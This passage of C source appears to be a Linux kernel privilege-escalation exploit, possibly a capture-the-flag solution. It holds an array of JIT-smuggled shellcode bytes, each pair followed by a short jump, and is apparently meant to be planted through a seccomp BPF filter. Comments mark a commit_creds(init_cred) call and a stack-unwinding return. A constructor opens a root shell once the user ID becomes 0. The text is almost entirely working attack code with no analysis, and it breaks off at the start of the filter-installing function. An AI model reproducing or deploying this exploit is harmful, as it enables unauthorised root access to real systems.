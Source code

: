 ```c
    { 0xF7, 0xD1, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x51, 0x90, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x2C, 0x04, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x31, 0xC9, 0xEB, 0x01 },
    { 0x31, 0xC0, 0xEB, 0x01 },
    { 0xB1, 0x08, 0xEB, 0x01 },
    { 0x04, 0x01, 0xEB, 0x01 },
    { 0xD3, 0xE0, 0xEB, 0x01 },
    { 0x04, 0x97, 0xEB, 0x01 },
    { 0xD3, 0xE0, 0xEB, 0x01 },
    { 0x04, 0xB8, 0xEB, 0x01 },
    { 0xD3, 0xE0, 0xEB, 0x01 },
    { 0x04, 0x50, 0xEB, 0x01 },
    { 0x01, 0xC3, 0xEB, 0x01 },
    { 0x50, 0x50, 0xEB, 0x01 },
    { 0x50, 0x53, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x04, 0x0C, 0xEB, 0x01 },
    { 0x31, 0xC9, 0xEB, 0x01 },
    { 0xF7, 0xD1, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x51, 0x90, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x2C, 0x04, 0xEB, 0x01 },
    { 0x48, 0x94, 0xEB, 0x01 },
    { 0x5F, 0x58, 0xEB, 0x01 },
    { 0x58, 0x58, 0xEB, 0x01 },
    { 0x58, 0x90, 0xEB, 0x01 },
    { 0xFF, 0xD0, 0xEB, 0x01 }, // commit_creds(init_cred)
    { 0x58, 0x58, 0xEB, 0x01 }, // pop rax * 29 + ret
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 },  
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 }, 
    { 0x58, 0x58, 0xEB, 0x01 },
    { 0x58, 0xC3, 0xEB, 0x01 },  
};

__attribute__((constructor))
void init(){
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    setbuf(stderr, NULL);
    if(getuid() == 0)
        system("/bin/sh");
}

void install_seccomp_filter(int hash) {
    int idx;
    struct sock_filter filter[1000] = {0};

    struct sock_filter mov_hash = BPF_STMT(BPF_LD | BPF_IMM, hash);
```